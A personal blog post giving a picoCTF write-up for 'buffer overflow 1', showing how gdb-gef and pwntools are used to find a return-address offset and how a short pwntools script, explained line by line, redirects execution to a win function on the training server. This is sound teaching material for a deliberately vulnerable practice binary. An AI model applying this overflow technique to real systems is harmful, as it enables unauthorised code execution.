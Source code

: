 ```yaml
---
title: "Controlling Return Addresses with Buffer Overflows"
date: 2023-01-10T17:36:35-05:00
draft: false
tags: ["binary exploitation","reverse engineering"]
---
```

## Introduction
When I was younger, I was always fascinated with the idea of being able to break things digitally. However, I always believed that I was not smart enough to pursue this. In 2022, I have decided to start learning reverse engineering again! Starting out, I have started the Modern Binary Exploitation crackme files, and have been doing the picoCTF training ones as well. In this article I will cover picoCTF buffer-overflow1!

<!--more-->

### Start
Firstly, lets create a new directory called `bufferoverflow1` or whatever you would like to call it, then cd into that directory and wget both the vuln file and vuln.c file. Opening vuln.c with nano shows this:
![image](/img/1/p1.png)

It looks like buf is a character array with a size of 64 bytes. We also have a function called win, but win is never called... So how do we go about calling win? Well, firstly lets run vuln to see how it works. Mark it as executable with `chmod +x vuln` and then type `./vuln`
Entering any input should be fine here, so let's enter hello. After entering hello, we get the output:

```Okay, time to return... Fingers Crossed... Jumping to 0x804932f.``` 

Ok, so lets break this! Lets open gdb-gef (make sure you have gdb installed first then: [download gdb-gef](https://github.com/hugsy/gef)), and type `b main` to set a breakpoint at the main function. Then type `r` to resume.

We should be seeing something like this. Now what we can do is use pwntools (`pip install pwntools`) cyclic to generate a recognizable string for us. If we type `shell cyclic 64` and copy the output of that, we can type `c` again to continue. If we now paste in our string, and enter, we should see something like this:
![image](/img/1/p2.png)

If we look, we can see that vuln has been stopped at `0x61616c` with value `laaa`. If we now search for this pattern, using `search pattern 0x6161616c`, we can see two offsets. 44 for little endian and 41 for big endian. Just make note of these two for now. Now we need to get the address of the win function so that we can make our exploit redirect to the memory address of win. Type `x win` and note that as well. Lets exit gdb and type `file vuln`. The output tells us that vuln is an LSB executable and LSB corresponds to little endian, so vuln is in little endian. What is an endian you might ask? Well, endian is the way that our computers read and organize data. Little endian stores data with LSB first, and big endian stores data with MSB first. Ok, now we have our offset of 44. Now it is time to write out payload!

### Payload
![image](/img/1/p3.png)
These 9 lines are our entire payload! Let's go over what each line does.

1. `from pwn import *` — we import pwntools.
2. `payload = b'A'*44` — we make a variable: payload that contains the bytes of 44 A's.
3. `payload += p32(0x80491f6)` — we add the memory address of win, converted to little endian, to our payload.
4. `host, port = "saturn.picoctf.net", "[EXAMPLE_PORT]"` — we create two new variables named host and port. Put your port in example port.
5. `connection = remote(host, port)` — using pwntools remote, we create connection using our host and port.
6. `log.info(connection.recvS())` — log is used to make our output pretty, and we make log output connection.recvS(), and recvS means read data silently.
7. `connection.sendline(payload)` — we send our payload to our connection.
8. `log.success(connection.recvallS())` — if our log succeeds, output connection.recvallS(), which means read all bytes silently.
9. `connection.close()` — close our connection.

Alright, lets run this now! Going back to our terminal, we can type `python3 payload.py`:
![output](/img/1/p4.png)

Looking at our output, clearly everything worked smoothly. If we look, we can see that the program says time to jump with the memory address of `0x80491f6`. If we remember earlier, this is the memory address of win, which prints our flag!

### Conclusion
This was a very basic introduction to binary exploitation, and I hope to be able to cover more in the future!